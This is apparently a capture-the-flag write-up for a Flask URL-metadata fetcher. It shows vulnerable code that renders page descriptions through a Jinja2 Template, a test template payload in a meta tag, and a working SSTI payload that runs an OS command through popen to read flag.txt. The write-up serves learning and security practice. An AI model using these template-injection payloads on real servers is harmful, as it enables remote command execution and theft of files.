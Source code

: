 # Overview
This is the login and registration interface when we start entering the website  
  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/2cb3233f-e361-46af-b837-190d75dc273c" />
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/ea073e50-ab08-49b6-b700-14dd5331535b" />  

After creating an account and logging in, you will be taken to a page that allows us to fetch the urls we passed  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/b4c84f43-731b-4fc2-97cf-ffbce2193a0e" />  


Try streaming https://facebook.com  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/343f43da-8cdb-40b3-a59b-5e3d335e3fca" />  
There are 3 return parameters:  
* Url when fetched
* Title page
* Description
Reading the source code we can see there is a vulnerability related to SSTI:
```
  escaped_description = html.escape(description) # Escape HTML entities in description
  escaped_description = Template(description).render()
  escaped_url = html.escape(url)
  escaped_title = html.escape(title)
```
=> We can see that if we pass an SSTI payload into the description, it will be reflected out  
Analyzing the code a little more, we can see that the website uses flask python to code and the jinja2 template is imported for use.  
```
from flask import Flask, request, render_template, redirect, url_for, session, g
from jinja2 import Template
```
# Writeup
Now we will create a web metadata containing description and payload  
```
<html>
  <head>

    <meta name="description" content="{{ 7*’7’}}">
  </head>
  <body>Exploit</body>
</html>
```
We see that the description has executed the payload **SSTI** :  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/c1233d0b-a486-42fd-b0fb-2f90859ce646" />  
Now we will transmit the payload to read the flag:  
```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}```  
Flag will be returned  
<img width="500" height="250" alt="image" src="https://github.com/user-attachments/assets/d935b5ef-7d3b-40b7-acfb-c40fd7fced52" />
  
See more: [Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)

